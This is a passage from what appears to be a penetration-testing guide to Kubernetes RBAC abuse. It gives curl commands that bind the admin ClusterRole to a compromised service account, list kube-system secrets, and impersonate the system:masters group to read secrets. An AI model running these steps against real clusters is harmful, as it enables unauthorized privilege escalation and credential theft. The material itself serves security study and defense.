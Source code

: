 ```javascript
            "kind": "ServiceAccount",
            "name": "compromised-svc"
            "namespace": "default"
        }
    ]
}
```

The purpose of this JSON file is to bind the admin “CluserRole” (line 11) to the compromised service account (line 16).

Now, all we need to do is to send our JSON as a POST request to the API using the following CURL command:

```bash
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" \ 
-H "Content-Type: application/json" \
https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
 -d @malicious-RoleBinging.json
```

After the **admin role is bound to the “compromised-svc” service account**, we can use the compromised service account token to **list secrets**. The following CURL command will do this:

```bash
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>"\
-H "Content-Type: application/json"
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### **Impersonating privileged accounts**

With a [**user impersonation**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation) **** privilege, an attacker could impersonate a privileged account.

In this example, the service account _**sa-imper**_ has a binding to a ClusterRole  with rules that allow it to impersonate groups and users.

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_for\_user\_impersonation.png)

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_for\_user\_impersonation\_2.png)

It's possible to **list all secrets** with `--as=null --as-group=system:master` attributes:

![](https://www.cyberark.com/wp-content/uploads/2018/12/listing\_secrets\_with\_and\_without\_user\_impersonation-1024x108.png)

**It's also possible to perform the same action via the API REST endpoint:**

```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\ 
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
